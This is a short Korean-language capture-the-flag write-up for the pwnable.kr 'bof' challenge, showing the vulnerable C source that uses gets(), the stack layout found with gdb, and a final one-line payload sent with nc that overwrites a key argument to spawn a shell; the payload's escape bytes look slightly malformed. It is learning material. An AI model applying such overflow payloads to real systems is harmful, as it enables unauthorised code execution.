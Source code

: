 # bof
이 문제는 사용자로부터 유효값 검증없이 입력을 받아 overflow 취약점이 존재한다. key 라는 변수의 값에 0xcafebabe 값과 동일하게 맞춰줄 경우 플래그를 출력한다. < 소스코드 참조 >

gdb 로 디버깅 해보면 스택의 구조는 다음과 같다.

| overflowme(32byte) | dummy(12byte) | sfp(4byte) | ret(4byte) | key(0xdeadbeef) |

즉, 52byte 만큼 덮어쓰면, key 값을 변경할 수 있다.


```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

최종 페이로드는 아래와 같다.

* (python -c 'print "A"*52 + "\xbe\xba\xfe\ca""') | nc pwnable.kr 9000